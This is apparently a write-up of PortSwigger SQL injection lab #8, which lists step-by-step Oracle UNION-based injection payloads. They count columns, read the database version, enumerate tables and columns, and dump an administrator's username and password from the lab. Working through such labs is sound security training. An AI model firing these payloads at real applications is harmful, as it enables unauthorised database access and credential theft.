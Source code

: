 
# Portswigger SQLi Lab #8

## SQL injection attack, listing the database contents on Oracle

<br>

<br>


**1. Find the number of columns.**

' order by 1--
> 200

' order by 2--
> 200

' order by 3--
> 500

<br>

**2. Find the data types of the columns.**

' UNION SELECT 'a', 'a' from all_tables--

Both data types are strings.

<br>

**3. Find the database version (if not previously known).**

' UNION SELECT banner, NULL FROM v$version-- 

Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit ProductionTNS for Linux: Version 11.2.0.2.0 - Production

<br>

**4. Find the table names of the Oracle database.**

' UNION SELECT table_name, NULL FROM all_tables--

There are two tables that look interesting, USER$ and USERS_XTICQS

<br>

**5. Find the column names of table USERS_XTICQS.**

' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_XTICQS'--


The two table names were found:
USERNAME_ZWTVSI
PASSWORD_OWZJKM

<br>

**6. Query the username and password columns that were found.**

' UNION SELECT USERNAME_ZWTVSI, PASSWORD_OWZJKM FROM USERS_XTICQS--

administrator
b5ov8q0drx9gdaj3ermi

<br>

**7. Lastly, login with those credentials to complete the lab.**